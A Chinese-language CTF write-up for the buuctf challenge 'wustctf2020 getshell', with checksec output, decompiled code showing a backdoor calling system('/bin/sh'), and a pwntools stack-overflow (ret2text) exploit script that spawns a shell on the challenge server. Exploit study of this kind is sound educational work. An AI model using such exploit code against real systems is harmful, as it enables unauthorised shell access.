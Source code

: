 ```yaml
---
author: 
  name: Zephyr
title: wustctf2020 getshell
date: 2022-3-31 10:21:25
permalink: /pages/2e1547494524d1a1
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# wustctf2020 getshell

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/wustctf2020_getshell/wustctf2020_getshell'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  vulnerable();
  return 0;
}
```

vulnerable函数及函数表如下

![wustctf2020_getshell_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/wustctf2020_getshell_1.png)

shell函数如下

```c
int shell()
{
  return system("/bin/sh");
}
```



## 思路分析

1. 目前信息：
   
   - vulnerable函数存在溢出点
   - 有后门函数shell
   - No canary found
   - NX enabled
   - No PIE (0x8048000)
2. 思路：
   - 32位ret2text

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/wustctf2020_getshell/wustctf2020_getshell'
io = remote('node4.buuoj.cn', 27378)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x18+4
back_door = elf.symbols['shell']
payload=flat(['a'*padding,back_door])
io.recv()
io.send(payload)
io.interactive()
```